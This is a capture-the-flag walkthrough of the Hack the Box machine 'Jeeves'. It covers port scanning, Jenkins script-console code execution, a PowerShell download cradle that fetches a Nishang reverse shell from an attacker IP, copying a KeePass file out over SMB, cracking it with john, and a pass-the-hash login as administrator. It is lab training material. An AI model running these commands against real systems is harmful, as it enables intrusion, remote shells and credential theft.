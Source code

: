 # Hack the Box - Jeeves

```CSS
Machine IP: 10.10.10.63 - Windows
Difficulty: Medium
Category: OSCP Preparation
```

## NMAP

```CSS
▶ nmap -Pn -sS -p- 10.10.10.63 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.63
Host is up (0.18s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 126.42 seconds
```

```CSS
▶ nmap -sC -sV -p 80,135,445,50000 10.10.10.63 -oN deep.nmap 

Nmap scan report for 10.10.10.63
Host is up (0.18s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-05-05T11:01:04
|_  start_date: 2023-05-05T10:53:38
|_clock-skew: mean: 4h59m36s, deviation: 0s, median: 4h59m35s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.18 seconds
```

## HTTP 80
![image](https://user-images.githubusercontent.com/83878909/236389498-19f90e31-9c0d-4d9a-a46d-412576e533ed.png)

## HTTP 50000
![image](https://user-images.githubusercontent.com/83878909/236389674-c5e1bd6b-986d-46fd-b722-774f68fc85b2.png)

## Content Discovery
```CSS
▶ gobuster dir -u http://10.10.10.63:50000 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 25 -o http50000.gobuster
```
![image](https://user-images.githubusercontent.com/83878909/236398246-f2078de0-b176-4b58-ad55-50c921f36af9.png)

### Jenkins
![image](https://user-images.githubusercontent.com/83878909/236398469-e3cc9985-d477-4eb1-ad5d-c2158413b1a3.png)

## Initial Foothold
### Jenkins Code Execution
![image](https://user-images.githubusercontent.com/83878909/236399568-d5c3513a-e53a-4eb0-ad52-78b57a826a65.png)
![image](https://user-images.githubusercontent.com/83878909/236399923-36a48d06-d4bf-4f21-bbbd-774488412b38.png)
![image](https://user-images.githubusercontent.com/83878909/236400279-596d3aac-959f-4467-8461-edf489fdb014.png)
![image](https://user-images.githubusercontent.com/83878909/236403739-d0e075fe-9e51-4c44-a413-c895808a6eb7.png)

### Reverse Shell (Nishang)
```CSS
Invoke-PowerShellTcp.ps1
```
  - Add the below line to the end of the nishang script to call the function `Invoke-PowerShellTcp`.
```CSS
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.24 -Port 1337
```
![image](https://user-images.githubusercontent.com/83878909/236402506-7d9ab4a3-c03b-4f9a-95df-9919a096fab8.png)

### Upload and Execute Reverse Shell
![image](https://user-images.githubusercontent.com/83878909/236404815-a3a749e4-9efe-4822-84f7-c52ff12fadbb.png)
```CSS
cmd = """ powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.24:8000/Invoke-PowerShellTcp.ps1')" """
println cmd.execute().text
```
![image](https://user-images.githubusercontent.com/83878909/236404998-1451dc7e-23c3-492c-b2c0-9c4088e3fa56.png)
![image](https://user-images.githubusercontent.com/83878909/236405272-c600aa84-8189-4c49-823c-b3a885c9c1b7.png)

## Privilege Escalation
```CSS
PS C:\Users\kohsuke\Desktop> systeminfo

Host Name:                 JEEVES
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.10586 N/A Build 10586
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00331-20304-47406-AA297
Original Install Date:     10/25/2017, 4:45:33 PM
System Boot Time:          5/5/2023, 6:53:24 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,155 MB
Virtual Memory: Max Size:  2,687 MB
Virtual Memory: Available: 1,747 MB
Virtual Memory: In Use:    940 MB
Page File Location(s):     C:\pagefile.sys 
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 10 Hotfix(s) Installed.
                           [01]: KB3150513 
                           [02]: KB3161102 
                           [03]: KB3172729 
                           [04]: KB3173428 
                           [05]: KB4021702 
                           [06]: KB4022633 
                           [07]: KB4033631 
                           [08]: KB4035632 
                           [09]: KB4051613 
                           [10]: KB4041689 
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.63
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

### Check Privileges
  - Enabled privileges for the current user.
```CSS
PS C:\Users\kohsuke\Desktop> whoami /priv
```
![image](https://user-images.githubusercontent.com/83878909/236414816-1cb17b36-5c1e-4523-9408-e0f0cd9c4ad7.png)
  - SetImpersonatePrivilege is enabled so we’re very likely to get SYSTEM using Juicy Potato. However it is not the intended way to get SYSTEM on this machine.

### Content Discovery
![image](https://user-images.githubusercontent.com/83878909/236416012-ac147c3d-f597-4efe-a993-72b5b024ef42.png)

  - A bit of browsing quickly reveals a CEH.kdbx file in the Documents directory.

#### File Transfer
  - Transfer the `CEH.kdbx` file to attacker machine. Use `netcat` or `impacket-smbserver` for the file transfer.
```CSS
▶ impacket-smbserver PwnStuff `pwd`
```
![image](https://user-images.githubusercontent.com/83878909/236417913-f7d190bb-1536-423b-9281-108512a2bc16.png)
```CSS
PS C:\Users\kohsuke\Documents> New-PsDrive -Name "HardyBoy" -PSProvider "FileSystem" -Root "\\10.10.14.24\PwnStuff"
PS C:\Users\kohsuke\Documents> cd HardyBoy:
```
![image](https://user-images.githubusercontent.com/83878909/236418624-4a8aa8da-1174-4551-8c62-5a4ffb6dd317.png)

```CSS
PS HardyBoy:\> cp C:\Users\kohsuke\Documents\CEH.kdbx
```
![image](https://user-images.githubusercontent.com/83878909/236419375-2e1c8a97-5752-4594-bdf7-9d012466a04f.png)

### Crack KeePass Database Password
```CSS
▶ keepass2john CEH.kdbx
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

```CSS
▶ keepass2john CEH.kdbx > kdbx.hash
▶ john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt kdbx.hash
```
![image](https://user-images.githubusercontent.com/83878909/236423036-e30a1c30-dd2c-460a-9d88-54826270cda1.png)
```CSS
Database Password: moonshine1
```

### KeePass Database
  - Access the `keepass` database using `kpcli`.
```CSS
▶ kpcli --kdb CEH.kdbx 
```
![image](https://user-images.githubusercontent.com/83878909/236424236-8de83712-3f0a-46e0-876d-c2ec3dccff42.png)
  - Checking Entries
![image](https://user-images.githubusercontent.com/83878909/236429504-cb34c0b6-d942-45c2-a0f1-9fd68b9d69b4.png)

### NTLM Hash
```CSS
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

### Pass the Hash Attack
```CSS
▶ pth-winexe --user=administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.exe
```
![image](https://user-images.githubusercontent.com/83878909/236430575-90129cb0-9af9-4a9b-8a09-bb6f600b9b1e.png)

## Root Flag
![image](https://user-images.githubusercontent.com/83878909/236431367-55a20192-5af7-445e-87b0-022fa53bb53f.png)
  - Check associated streams.
![image](https://user-images.githubusercontent.com/83878909/236431881-6f6e76d2-eb3b-4e27-8298-525643b37b1d.png)

